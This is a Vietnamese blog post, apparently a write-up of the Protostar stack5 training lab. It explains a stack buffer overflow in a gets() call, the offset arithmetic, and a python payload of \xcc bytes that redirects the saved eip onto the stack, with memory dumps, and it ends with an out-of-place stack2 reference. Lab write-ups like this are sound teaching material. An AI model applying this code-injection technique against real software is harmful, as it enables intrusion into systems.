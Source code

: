```yaml
---
layout: post
title: stack5
---
```

Trong bài trước, chúng ta đã biết cách thay đổi giá trị `eip` của caller để điều hướng chương trình sau khi return từ callee.
Trong bài này, thay vì chỉ điều hướng đến những hàm có sẵn, chúng ta sẽ inject một đoạn mã vào bộ nhớ của chương trình và thực thi đoạn mã này.
Trước tiên, hãy xem source code của chương trình stack5:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
stack5 tương tự stack4. Chương trình này cũng dùng `gets` để nhập giá trị cho `buffer`. Kỹ thuật làm tràn bộ nhớ trong stack4 cũng sẽ được dùng ở đây. Sau đây là asm code của `main` trong stack5.
```asm
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
`buffer` sẽ chiếm bộ nhớ `esp + 0x10` đến `esp + 0x4f`.
Như đã giải thích trong bài trước, theo sau `buffer` là padding, `ebp` và `eip` của caller.
Chúng ta sẽ giả thiết padding là 8 byte.
(điều này đúng với đại đa số các lần chạy thử.)
Như vậy, tổng số byte cần nhập vào là 64 + 8 + 4 + 4 = 80 byte.

Giá trị cần ghi đè vào `eip` của caller sẽ là một địa chỉ trên stack, và là một trong những địa chỉ từ `esp + 0x10` đến `esp + 0x5f` đã lưu 80 byte.
Trong ví dụ đầu tiên sau đây, byte `\xcc` sẽ được dùng để thử nghiệm.
Cụ thể, byte `\xcc` là một lệnh có ý nghĩa như 1 breakpoint.
Khi instruction có mã này được chạy, chương trình sẽ thông báo đã chạm đến breakpoint.
Dùng gdb để kiếm tra bộ nhớ, ta thấy giá trị của `esp` là `0xbffff750`.
Do đó, ta sẽ chọn giá trị mới cho `eip` là từ `0xbffff760` đến `0xbffff79f`.
Sau đây là 1 ví dụ:
```bash
python -c "print '\xcc' * 64 + '\x60\xf7\xff\xbf' * 4" > input.txt
stack5 < input.txt
```
Bộ nhớ sau khi gọi hàm `gets` sẽ như sau. Phân biệt bằng màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">eip của caller</span>.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff790:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      <span style="color:orangered">0xbffff780</span>
</pre>
Sau khi được nạp giá trị mới, <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi:
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
<span style="color:aqua">0xbffff760</span>:     0x<span style="color:yellow">cc</span>cccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff770:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff780:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      0xbffff780

<span style="color:aqua">0xbffff760</span>:     <span style="color:yellow">int3</span>
</pre>
## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
